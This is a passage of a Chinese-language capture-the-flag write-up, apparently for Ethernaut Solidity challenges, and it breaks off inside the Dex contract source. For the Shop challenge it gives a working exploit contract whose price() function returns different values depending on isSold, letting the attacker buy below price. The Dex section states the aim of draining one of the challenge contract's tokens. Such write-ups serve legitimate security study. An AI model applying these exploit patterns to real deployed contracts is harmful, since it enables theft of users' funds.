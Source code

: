 和Elevator那题一样，两次调用price()函数返回值不一样即可，第一次返回大于100的数，第二次返回小于100的数

不同的是这里是view函数，不能改变变量

发现在第一次调用后改变了`bool public isSold`为true，因此可以根据isSold的状态来决定返回值

```js
pragma solidity ^0.6.0;

contract Shop {
  uint public price = 100;
  bool public isSold;

  function buy() public {
  }
}
contract Exp {
    Shop instance;
    constructor(address _instance) public {
        instance = Shop(_instance);
    }

    function price() view public returns (uint){
        if(instance.isSold() == true) {
            return 99;
        }
        else {
            return 101;
        }
    }
    function attack() public {
        instance.buy();
    }
}
```

## Dex

目的是把题目账户上的某个 token 清零

```js
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

import "@openzeppelin/contracts/token/ERC20/IERC20.sol";
import "@openzeppelin/contracts/token/ERC20/ERC20.sol";
import '@openzeppelin/contracts/math/SafeMath.sol';
import '@openzeppelin/contracts/access/Ownable.sol';

contract Dex is Ownable {
  using SafeMath for uint;
  address public token1;
  address public token2;
  constructor() public {}

  function setTokens(address _token1, address _token2) public onlyOwner {
    token1 = _token1;
    token2 = _token2;
  }
  
  function addLiquidity(address token_address, uint amount) public onlyOwner {
    IERC20(token_address).transferFrom(msg.sender, address(this), amount);
  }
  
  function swap(address from, address to, uint amount) public {
```